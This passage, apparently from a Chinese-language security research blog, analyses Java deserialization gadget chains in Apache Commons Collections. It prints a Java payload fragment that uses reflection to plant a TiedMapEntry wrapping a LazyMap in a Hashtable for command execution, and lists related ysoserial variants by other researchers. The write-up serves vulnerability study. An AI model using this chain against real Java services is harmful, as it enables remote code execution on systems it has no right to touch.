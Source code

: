 其实从利用链来看，与CommonsCollections6的区别在于前部的触发使用了不同的对象。

接下来，结合第5点的学习，我们来写一下这个payload的利用链exp

```java
final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

final Map innerMap = new HashMap();
final Map innerMap2 = new HashMap();

final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
Hashtable hashtable = new Hashtable();
hashtable.put("foo",1);
// 获取hashtable的table类属性
Field tableField = Hashtable.class.getDeclaredField("table");
Permit.setAccessible(tableField);
Object[] table = (Object[])tableField.get(hashtable);
Object entry1 = table[0];
if(entry1==null)
    entry1 = table[1];
// 获取Hashtable.Entry的key属性
Field keyField = entry1.getClass().getDeclaredField("key");
Permit.setAccessible(keyField);
// 将key属性给替换成构造好的TiedMapEntry实例
keyField.set(entry1, entry);
// 填充真正的命令执行代码
Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
return hashtable;
```

## 7. 梅子酒师傅的CommonsCollections9

找到上面CommonsCollections10时，在网上找了一下有没有师傅已经挖到过了，一共找到下面三位师傅

* https://github.com/Jayl1n/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections8.java
* https://github.com/frohoff/ysoserial/pull/125/commits/4edf02ba7765488cac124c92e04c6aae40da3e5d
* https://github.com/frohoff/ysoserial/pull/116

一个一个来说

1. 第一个[Jayl1n](https://github.com/Jayl1n)师傅做的改变主要是最终的Runtime.getRuntime().exec改成了URLClassLoader.loadClass().newInstance的方式，前面用的还是CommonsCollections6，这里暂时不将其归类为新的利用链。

2. 第二个是**[梅子酒](https://github.com/meizjm3i)**师傅提交的CommonsCollections9，主要利用的是CommonsCollections:3.2版本新增的`DefaultedMap`来代替`LazyMap`，因为这两个Map有同样的get函数可以被利用，这里不再具体分析。
3. 第三个是**[navalorenzo](https://github.com/navalorenzo)**师傅提交的CommonsCollections8，其利用链基于CommonsCollections:4.0版本，暂时不在本篇文章的分析范围内，后面会好好分析一下。

# 0x03 总结
